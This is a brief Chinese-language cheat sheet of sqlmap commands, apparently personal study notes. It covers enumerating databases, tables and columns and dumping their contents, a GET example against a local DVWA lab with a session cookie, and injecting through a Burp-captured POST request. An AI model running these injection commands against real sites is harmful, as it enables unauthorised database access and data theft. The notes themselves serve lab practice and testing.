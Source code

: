 # sqlmap

## sqlmap直接注入

```shell
sqlmap -u http://example.com --dbs
# 跑库
sqlmap -u http://example.com -D 数据库名 --tables
# 跑指定库中表
sqlmap -u http://example.com -D 数据库名 -T 表名 --columns
# 跑指定库中指定表中列
sqlmap -u http://example.com -D 数据库名 -T 表名 --C 列名 --dump
# 跑指定库中指定表中指定列中的值

sqlmap -u http://example.com --dump
# 全输出
```

```shell
# get方法递交查询参数
sqlmap -u 
"http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit" 
--cookie="security=low; PHPSESSID=ppuucmoddjbj5cg5kmo49g3v8s"
```

## 报头为POST,无法直接注入

    例:登录
    ①burp抓包,另存到安装目录下
    ②sqlmap -r filename --dbs -p user
    ｜ -p为指定漏洞点,后跟具体发现漏洞点
    ③一致.替换-u为-r



```shell

```

